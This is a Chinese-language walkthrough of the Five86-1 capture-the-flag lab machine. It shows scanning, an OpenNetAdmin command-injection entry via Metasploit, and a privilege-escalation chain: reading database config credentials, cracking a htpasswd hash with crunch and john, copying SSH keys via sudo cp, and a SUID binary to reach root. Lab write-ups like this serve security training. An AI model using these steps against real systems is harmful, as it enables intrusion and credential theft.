








好久没打了

[参考wp](https://www.cnblogs.com/jason-huawen/p/17146071.html)

**环境配置**
ova导入 打开后改NAT

靶机ip: 192.168.136.162


nmap扫
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-05-05 06:07 CST
Nmap scan report for 192.168.136.162
Host is up (0.00038s latency).
Not shown: 97 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 69:e6:3c:bf:72:f7:a0:00:f9:d9:f4:1d:68:e2:3c:bd (RSA)
|   256 45:9e:c7:1e:9f:5b:d3:ce:fc:17:56:f2:f6:42:ab:dc (ECDSA)
|_  256 ae:0a:9e:92:64:5f:86:20:c4:11:44:e0:58:32:e5:05 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ona
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:F8:EE:8D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.46 seconds

```
访问这个网站什么都没有 但是根据robots.txt 得到 /ona路由

访问发现右上角有个登陆 随便尝试 admin/admin 弱口令登陆...

OpenNetAdmin 搜索发现有对应漏洞 看看能不能利用


把这个sh拷到本机 把代码复制一遍到exp.sh (直接用会出bug)
然后


RCE
但这shell时好时坏 ... 反弹shell也难搞

信息收集:
```
 ls /opt/ona/www/local/config/
database_settings.inc.php
motd.txt.example
$ cat /opt/ona/www/local/config/da*
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'ona_password',
        'db_database' => 'ona_onadb',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

$ 

```

找网上说的尝试su /ssh p用没得...
无果 返回去看发现msf能直接打...
也就是用这个 `penNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)  `

msf能直接给Shell md ...
照着options配好


msf已经帮我们把反弹shell做好了
python起一个交互shell `python -c 'import pty;pty.spawn("/bin/bash")'`

然后就是脑洞大开的环节了


进入~ 后 `cat .htpasswd`

```
www-data@five86-1:~$ ls
ls
html
www-data@five86-1:~$ cat .ht*   
cat .ht*
douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1

# To make things slightly less painful (a standard dictionary will likely fail),
# use the following character set for this 10 character password: aefhrt 
www-data@five86-1:~$ 

```

逆天,,,
告诉我们10个字符和字符的范围

`crunch 10 10 aefhrt -o dict   `
`$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1` 这一段就是UNIX的md5

得到dict后用john爆破 `john --wordlist=dict hash.txt`


`douglas` : `fatherrrrr`

就可以su切换douglas了
sudo -l
```
douglas@five86-1:/var/www$ sudo -l
sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
```

然而cp直接是无法提权的 然后又是脑洞大开
```
在里面发现了id_rsa和id_rsa.pub两个文件，那么把它cp到jen目录下就可以使用ssh公匙免密登录jen了
```

emmm 好吧


注意名字`authorized_keys`要规范!!!

免密登录后看到有mail
/var/mail查看
```
jen@five86-1:/var/mail$ cat jen
cat jen
From roy@five86-1 Wed Jan 01 03:17:00 2020
Return-path: <roy@five86-1>
Envelope-to: jen@five86-1
Delivery-date: Wed, 01 Jan 2020 03:17:00 -0500
Received: from roy by five86-1 with local (Exim 4.92)
        (envelope-from <roy@five86-1>)
        id 1imZBc-0001FU-El
        for jen@five86-1; Wed, 01 Jan 2020 03:17:00 -0500
To: jen@five86-1
Subject: Monday Moss
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1imZBc-0001FU-El@five86-1>
From: Roy Trenneman <roy@five86-1>
Date: Wed, 01 Jan 2020 03:17:00 -0500

Hi Jen,

As you know, I'll be on the "customer service" course on Monday due to that incident on Level 4 with the accounts people.

But anyway, I had to change Moss's password earlier today, so when Moss is back on Monday morning, can you let him know that his password is now Fire!Fire!

Moss will understand (ha ha ha ha).

Tanks,
Roy


```

`Moss` `Fire!Fire!`

切换为moss
moss无法sudo -l
进入主目录查看
```
moss@five86-1:~$ ls -alh
ls -alh
total 12K
drwx------ 3 moss moss 4.0K Jan  1  2020 .
drwxr-xr-x 7 root root 4.0K Jan  1  2020 ..
lrwxrwxrwx 1 moss moss    9 Jan  1  2020 .bash_history -> /dev/null
drwx------ 2 moss moss 4.0K Jan  1  2020 .games

```

学到新姿势 `ls -alh` 能查看隐藏文件!!!
进入 .games查看
```
moss@five86-1:~/.games$ ls -alh
ls -alh
total 28K
drwx------ 2 moss moss 4.0K Jan  1  2020 .
drwx------ 3 moss moss 4.0K May  4 11:40 ..
lrwxrwxrwx 1 moss moss   21 Jan  1  2020 battlestar -> /usr/games/battlestar
lrwxrwxrwx 1 moss moss   14 Jan  1  2020 bcd -> /usr/games/bcd
lrwxrwxrwx 1 moss moss   21 Jan  1  2020 bombardier -> /usr/games/bombardier
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 empire -> /usr/games/empire
lrwxrwxrwx 1 moss moss   20 Jan  1  2020 freesweep -> /usr/games/freesweep
lrwxrwxrwx 1 moss moss   15 Jan  1  2020 hunt -> /usr/games/hunt
lrwxrwxrwx 1 moss moss   20 Jan  1  2020 ninvaders -> /usr/games/ninvaders
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 nsnake -> /usr/games/nsnake
lrwxrwxrwx 1 moss moss   25 Jan  1  2020 pacman4console -> /usr/games/pacman4console
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 petris -> /usr/games/petris
lrwxrwxrwx 1 moss moss   16 Jan  1  2020 snake -> /usr/games/snake
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 sudoku -> /usr/games/sudoku
-rwsr-xr-x 1 root root  17K Jan  1  2020 upyourgame
lrwxrwxrwx 1 moss moss   16 Jan  1  2020 worms -> /usr/games/worms

```

发现 `upyourgame`可执行
莫名其妙就得到root权限了


其实是这个ELF权限位设置的原因


所以执行可以得到root权限

```
# id
id
uid=0(root) gid=1001(moss) groups=1001(moss)
# ls /root
ls /root
flag.txt
# cat /root/*
cat /root/*
8f3b38dd95eccf600593da4522251746
# 
```


---
---

总结:
又学到了新姿势~ 好欸!